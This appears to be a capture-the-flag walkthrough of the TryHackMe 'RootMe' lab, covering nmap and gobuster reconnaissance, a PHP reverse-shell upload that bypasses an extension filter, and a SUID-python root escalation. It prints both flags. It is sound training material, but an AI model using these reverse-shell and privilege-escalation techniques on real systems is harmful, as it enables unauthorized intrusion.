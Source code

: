 ```yaml
---
title: RootMe
date: 2022-04-24 17:00:00 +500
categories: [THM, easy machines]
tags: [suid]     # TAG names should always be lowercase
---
```



## Reconnaissance

### Scan the machine, how many ports are open?

Let's start with a nmap scan
```bash
nmap 10.10.138.249
```
and then a detailed one to see the port service and version

```bash
nmap -sCV -p22,80 10.10.138.249
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
> 2


### What version of Apache is running?

In the Nmap scan, we see that we already have the answer to this
> Apache/2.4.29

### What service is running on port 22?

> ssh


### Find directories on the web server using the GoBuster tool.

Let's do a Gobuster scan
the syntax is:
```
gobuster [mode] -u [target ip] -w [wordlist]
```

```bash
gobuster dir -u 10.10.138.249 -w /usr/share/dirb/wordlists/common.txt
```

```
/css                  (Status: 301) [Size: 312] [--> http://10.10.138.249/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 311] [--> http://10.10.138.249/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.138.249/panel/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.138.249/uploads/]
```

### What is the hidden directory?

We see two hidden directories, /panel and /uploads but the correct answer is

> /panel

which is a site to upload a file

## Getting a shell

So now that we have a file to upload a file, let's start trying to upload a php reverse shell that i suppose we can execute later going to the /uploads directory

I am going to use this:

https://github.com/pentestmonkey/php-reverse-shell

Remember to change the IP and PORT of your machine that you will use. And set up the listener with the port in your machine

```bash
nc -lvnp 1234
```

but we get a prompt that says php files are not allowed

Let's try to use another extension of php if this will bypass the extension filter

like these that I got from: https://book.hacktricks.xyz/pentesting-web/file-upload
PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

and with the second extension, the file got uploaded!

now let's head over to the uploads directory and try to run it 

I wasn't running so I tried with a more popular extension: .php5 and it worked, now we have a shell, let's retrieve the user.txt flag

### user.txt

to find the flag, since I know what the name is I will search for it with the command find
```bash
find / -name user.txt 2>/dev/null
```
the way it works is 'find [directory to search] -name [name of the file] 2>/dev/null [this last part is to avoid printing errors]

we found it on /var/www/user.txt, lets use cat to read it

> THM{y0u_g0t_a_sh3ll}

## Privilege Escalation

### Search for files with SUID permission, which file is weird?

to find this kind of file we can use the following command:
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
the one that stands out is this:

> /usr/bin/python

### Find a form to escalate your privileges.

let's head over to _gtfobin_ to search an exploit for this SUID FILE

we got this
```bash
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
remember to change ./python to the actual directory path that we found
```bash
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

and with this, we got a root shell

### root.txt
I head over /root and there it is, the root.txt flag

> THM{pr1v1l3g3_3sc4l4t10n}